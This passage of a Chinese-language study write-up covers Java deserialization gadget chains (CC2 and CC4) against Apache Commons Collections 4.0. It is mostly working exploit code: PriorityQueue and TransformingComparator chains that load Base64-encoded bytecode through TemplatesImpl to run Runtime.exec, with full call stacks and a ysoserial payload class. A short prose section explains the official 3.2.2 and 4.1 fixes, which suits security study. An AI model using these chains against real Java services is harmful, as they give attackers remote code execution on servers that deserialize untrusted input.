eXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());

        Transformer transformer = new InvokerTransformer("toString", null, null);
        Comparator comparator = new TransformingComparator(transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);

        queue.add(templates);
        queue.add(templates);

        Field iMethodNameField = InvokerTransformer.class.getDeclaredField("iMethodName");
        iMethodNameField.setAccessible(true);
        iMethodNameField.set(transformer, "newTransformer");

        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```



完整调用栈如下

```java
at Base.Unserialize.Base.HelloTemplatesImpl.<init>(HelloTemplatesImpl.java:15)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at org.apache.commons.collections4.functors.InvokerTransformer.transform(InvokerTransformer.java:129)
at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections2_Bytecode_Simplified.unserialize(CommonsCollections2_Bytecode_Simplified.java:59)
at Base.Unserialize.CC.CommonsCollections2_Bytecode_Simplified.main(CommonsCollections2_Bytecode_Simplified.java:39)
```

那在文初我就使用了CC6在commons-collections4的依赖中进行利用，那现在我能用CC2杀穿commons-collection3.2.1吗？

答案是不能，因为这条利⽤链中的关键类`org.apache.commons.collections4.comparators.TransformingComparator`，在commonscollections4.0以前是版本中是没有实现 Serializable 接⼝的，⽆法在序列化中使⽤。

那对于如此火热的反序列化漏洞，官方如何修复的呢？

Apache Commons Collections官⽅在很久很久以前（2015年底）得知序列化相关的问题后，就在两个分⽀ 上同时发布了新的版本，4.1和3.2.2。 先看3.2.2，通过diff可以发现，新版代码中增加了⼀个⽅法`FunctorUtils#checkUnsafeSerialization`，⽤于检测反序列化是否安全。如果开发者没有设置全局配置 org.apache.commons.collections.enableUnsafeSerialization=true ，即默认情况下会抛出异常。 

这个检查在常⻅的危险Transformer类 （ InstantiateTransformer 、 InvokerTransformer 、 PrototypeFactory 、 CloneTransforme r 等）的 readObject ⾥进⾏调⽤，所以，当我们反序列化包含这些对象时就会抛出⼀个异常： 

> Serialization support for org.apache.commons.collections.functors.InvokerTransformer is disabled for security reasons. To enable it set system property 'org.apache.commons.collections.enableUnsafeSerialization' to 'true', but you must ensure that your application does not de-serialize objects from untrusted sources. 

再看4.1，修复⽅式⼜不⼀样。4.1⾥，这⼏个危险Transformer类不再实现 Serializable 接⼝，也就是说，他们⼏个彻底⽆法序列化和反序列化了。非常牛皮，开发你懂不懂反序列化的好处啊？

## CC4

### 小包自己写的

至于CC4的POC，就是我刚才写的东西，抄CC3写的那条“CC2”（网上查到文章的时候才知道）

```java
package Base.Unserialize.CC;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.functors.*;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.xalan.transformer.TrAXFilter;

import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.PriorityQueue;

public class CommonsCollections4 {
    public static void main(String[] args) throws Exception {
        byte[] code = Base64.getDecoder().decode("yv66vgAAADQAMgoACgAZCQAaABsIABwKAB0AHgoAHwAgCAAhCgAfACIHACMHACQHACUBAAl0cmFuc2Zvcm0BAHIoTGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ET007W0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAARDb2RlAQAPTGluZU51bWJlclRhYmxlAQAKRXhjZXB0aW9ucwcAJgEApihMY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL0RPTTtMY29tL3N1bi9vcmcvYXBhY2hlL3htbC9pbnRlcm5hbC9kdG0vRFRNQXhpc0l0ZXJhdG9yO0xjb20vc3VuL29yZy9hcGFjaGUveG1sL2ludGVybmFsL3NlcmlhbGl6ZXIvU2VyaWFsaXphdGlvbkhhbmRsZXI7KVYBAAY8aW5pdD4BAAMoKVYBAAg8Y2xpbml0PgEADVN0YWNrTWFwVGFibGUHACMBAApTb3VyY2VGaWxlAQAXSGVsbG9UZW1wbGF0ZXNJbXBsLmphdmEMABIAEwcAJwwAKAApAQATSGVsbG8gVGVtcGxhdGVzSW1wbAcAKgwAKwAsBwAtDAAuAC8BABJvcGVuIC1hIENhbGN1bGF0b3IMADAAMQEAE2phdmEvbGFuZy9FeGNlcHRpb24BAChCYXNlL1Vuc2VyaWFsaXplL0Jhc2UvSGVsbG9UZW1wbGF0ZXNJbXBsAQBAY29tL3N1bi9vcmcvYXBhY2hlL3hhbGFuL2ludGVybmFsL3hzbHRjL3J1bnRpbWUvQWJzdHJhY3RUcmFuc2xldAEAOWNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9UcmFuc2xldEV4Y2VwdGlvbgEAEGphdmEvbGFuZy9TeXN0ZW0BAANvdXQBABVMamF2YS9pby9QcmludFN0cmVhbTsBABNqYXZhL2lvL1ByaW50U3RyZWFtAQAHcHJpbnRsbgEAFShMamF2YS9sYW5nL1N0cmluZzspVgEAEWphdmEvbGFuZy9SdW50aW1lAQAKZ2V0UnVudGltZQEAFSgpTGphdmEvbGFuZy9SdW50aW1lOwEABGV4ZWMBACcoTGphdmEvbGFuZy9TdHJpbmc7KUxqYXZhL2xhbmcvUHJvY2VzczsAIQAJAAoAAAAAAAQAAQALAAwAAgANAAAAGQAAAAMAAAABsQAAAAEADgAAAAYAAQAAAAoADwAAAAQAAQAQAAEACwARAAIADQAAABkAAAAEAAAAAbEAAAABAA4AAAAGAAEAAAAMAA8AAAAEAAEAEAABABIAEwABAA0AAAAtAAIAAQAAAA0qtwABsgACEgO2AASxAAAAAQAOAAAADgADAAAADwAEABAADAARAAgAFAATAAEADQAAAEMAAgABAAAADrgABRIGtgAHV6cABEuxAAEAAAAJAAwACAACAA4AAAAOAAMAAAAUAAkAFQANABYAFQAAAAcAAkwHABYAAAEAFwAAAAIAGA==");

        TemplatesImpl templates = new TemplatesImpl();
        setFieldValue(templates, "_bytecodes", new byte[][]{code});
        setFieldValue(templates, "_name", "Pwnr");
        setFieldValue(templates, "_tfactory", new TransformerFactoryImpl());


        Transformer[] fake = new Transformer[]{new ConstantTransformer(1)};

        Transformer[] real = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(
                        new Class[] {Templates.class},
                        new Object[] {templates}
                )
        };

        Transformer chain = new ChainedTransformer(fake);
        PriorityQueue queue = new PriorityQueue(2, new TransformingComparator(chain));
        queue.add(1);
        queue.add(2);

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(chain, real);

        byte[] data = serialize(queue);
        unserialize(data);
    }

    private static void setFieldValue(Object obj, String field, Object value) throws Exception {
        Field f = obj.getClass().getDeclaredField(field);
        f.setAccessible(true);
        f.set(obj, value);
    }

    private static byte[] serialize(Object obj) throws IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(obj);
        oos.close();
        return baos.toByteArray();
    }

    private static Object unserialize(byte[] bytes) throws IOException, ClassNotFoundException {
        ByteArrayInputStream bais = new ByteArrayInputStream(bytes);
        ObjectInputStream ois = new ObjectInputStream(bais);
        return ois.readObject();
    }
}
```

完整调用栈如下：

```
at Base.Unserialize.Base.HelloTemplatesImpl.<init>(HelloTemplatesImpl.java:15)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at java.lang.Class.newInstance(Class.java:442)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.getTransletInstance(TemplatesImpl.java:455)
at com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl.newTransformer(TemplatesImpl.java:486)
at org.apache.xalan.transformer.TrAXFilter.<init>(TrAXFilter.java:61)
at sun.reflect.NativeConstructorAccessorImpl.newInstance0(NativeConstructorAccessorImpl.java:-1)
at sun.reflect.NativeConstructorAccessorImpl.newInstance(NativeConstructorAccessorImpl.java:62)
at sun.reflect.DelegatingConstructorAccessorImpl.newInstance(DelegatingConstructorAccessorImpl.java:45)
at java.lang.reflect.Constructor.newInstance(Constructor.java:423)
at org.apache.commons.collections4.functors.InstantiateTransformer.transform(InstantiateTransformer.java:116)
at org.apache.commons.collections4.functors.InstantiateTransformer.transform(InstantiateTransformer.java:32)
at org.apache.commons.collections4.functors.ChainedTransformer.transform(ChainedTransformer.java:112)
at org.apache.commons.collections4.comparators.TransformingComparator.compare(TransformingComparator.java:81)
at java.util.PriorityQueue.siftDownUsingComparator(PriorityQueue.java:722)
at java.util.PriorityQueue.siftDown(PriorityQueue.java:688)
at java.util.PriorityQueue.heapify(PriorityQueue.java:737)
at java.util.PriorityQueue.readObject(PriorityQueue.java:797)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:498)
at java.io.ObjectStreamClass.invokeReadObject(ObjectStreamClass.java:1170)
at java.io.ObjectInputStream.readSerialData(ObjectInputStream.java:2178)
at java.io.ObjectInputStream.readOrdinaryObject(ObjectInputStream.java:2069)
at java.io.ObjectInputStream.readObject0(ObjectInputStream.java:1573)
at java.io.ObjectInputStream.readObject(ObjectInputStream.java:431)
at Base.Unserialize.CC.CommonsCollections4.unserialize(CommonsCollections4.java:66)
at Base.Unserialize.CC.CommonsCollections4.main(CommonsCollections4.java:46)
```

### Ysoserial

```java
package ysoserial.payloads;

import java.util.PriorityQueue;
import java.util.Queue;

import javax.xml.transform.Templates;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InstantiateTransformer;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.util.Gadgets;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;

import com.sun.org.apache.xalan.internal.xsltc.trax.TrAXFilter;

/*
 * Variation on CommonsCollections2 that uses InstantiateTransformer instead of
 * InvokerTransformer.
 */
@SuppressWarnings({ "rawtypes", "unchecked", "restriction" })
@Dependencies({"org.apache.commons:commons-collections4:4.0"})
@Authors({ Authors.FROHOFF })
public class CommonsCollections4 implements ObjectPayload<Queue<Object>> {

	public Queue<Object> getObject(final String command) throws Exception {
		Object templates = Gadgets.createTemplatesImpl(command);

		ConstantTransformer constant = new ConstantTransformer(String.class);

		// mock method name until armed
		Class[] paramTypes = new Class[] { String.class };
		Object[] args = new Object[] { "foo" };
		InstantiateTransformer instantiate = new InstantiateTransformer(
				paramTypes, args);

		// grab defensively copied arrays
		paramTypes = (Class[]) Reflections.getFieldValue(instantiate, "iParamTypes");
		args = (Object[]) Reflections.getFieldValue(instantiate, "iArgs");

		ChainedTransformer chain = new ChainedTransformer(new Transformer[] { constant, instantiate });

		// create queue with numbers
		PriorityQueue<Object> queue = new PriorityQueue<Object>(2, new TransformingComparator(chain));
		queue.add(1);
		queue.add(1);

		// swap in values to arm
		Reflections.setFieldValue(constant, "iConstant", TrAXFilter.class);
		paramTypes[0] = Templates.class;
		args[0] = templates;

		return queue;
	}

	public static void main(final String[] args) throws Exception {
		PayloadRunner.run(CommonsCollections4.class, args);
	}
}
```
